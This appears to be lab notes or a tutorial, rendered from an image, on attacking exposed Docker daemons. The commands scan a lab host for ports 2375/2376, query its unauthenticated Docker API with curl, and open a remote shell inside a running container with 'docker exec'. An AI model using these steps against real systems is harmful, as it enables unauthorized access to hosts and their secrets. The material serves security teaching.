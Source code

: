 #### Container Storage

let’s begin by creating a very simple container that when run will give us a shell:

```
mkdir -p containers/nmap

cd containers/nmap; nano Dockerfile
```

The Dockerﬁle we create will also be of Debian:bullseye- slim. Using the OverlayFS, this layer should match the existing container, and only changes should be appended:

```
FROM debian:bullseye-slim

RUN apt update -y && \
	apt-get install nmap -y
	
ENTRYPOINT ["/usr/bin/nmap"]
```

**Build and Run the container**

```
docker build -t <name> .

docker run -it <name> scanme.nmap.org
```

#### Look for Docker Daemons

```
nmap -p2375,2376 192.168.56.12 -A
```

To explore this further, let’s ﬁrst look at the API without the client:

```
curl http://192.168.56.12:2375/containers/json | jq ''

curl http://192.168.56.12:2375/images/json | jq ''
```

#### Interact with docker API

**View the remote host's processes**

```
docker -H 192.168.56.12 ps
```

#### Execute Commands Remotely

```
docker -H 192.168.56.12 exec -it targets_web_1 /bin/sh
```

**env Command**
